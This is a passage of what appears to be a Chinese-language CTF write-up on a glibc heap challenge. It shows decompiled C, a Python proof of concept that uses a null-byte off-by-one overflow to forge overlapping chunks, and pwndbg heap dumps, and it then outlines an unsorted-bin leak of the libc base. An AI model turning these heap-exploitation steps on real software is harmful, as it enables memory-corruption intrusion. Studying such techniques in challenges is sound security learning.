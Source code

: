 由于这题的出题人用0xda填充整个chunk，所以我们不能直接伪造pre_size来overlapping

```c
void delete()
{
  unsigned __int64 idx; // [rsp+8h] [rbp-8h]

  printf("Index:");
  idx = input();
  if ( idx > 9 )
    exit(-3);
  if ( note[idx] )
  {
    memset(note[idx], 0xDA, note_size[idx]);
    free(note[idx]);
    note[idx] = 0LL;
    note_size[idx] = 0LL;
  }
  puts(":)");
}
```

但我们刚刚才验证的null byte off-by-one溢出的字节为\x00，所以我们可以通过反复的利用这个把pre_size位清0来构造overlapping

```python
#poc
new(0x10,'aaaa')
new(0x110,'aaaa')
free(0)
for i in range(8):
    new(0x10-i,'a'*(0x10-i))
    free(0)
raw_input()
```

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x560894f1f000      0x0                 0x20                 Freed 0x61616161616161610x6161616161616161
0x560894f1f020      0x130               0x100                Freed         0x61616161               0x0
Corrupt ?! (size == 0) (0x560894f1f120)
pwndbg> x/8x 0x560894f1f000
0x560894f1f000:	0x0000000000000000	0x0000000000000021
0x560894f1f010:	0x6161616161616161	0x6161616161616161
0x560894f1f020:	0x0000000000000130	0x0000000000000100
0x560894f1f030:	0x0000000061616161	0x0000000000000000
```

接着我们需要libc_base来方便后面的操作，我们可以看到在new中对size的检验范围十分大，这时我们可以通过unsort_bin_attack来泄露一个紧贴libc的地址 ，之后我们可以通过调试得到这个地址与libc_base的偏移，就相当与泄露出了libc_base

```c
printf("Size:");
  size = input();
  if ( size > 0x2000 )
    exit(-2);
  note_chunk = malloc(size);
```
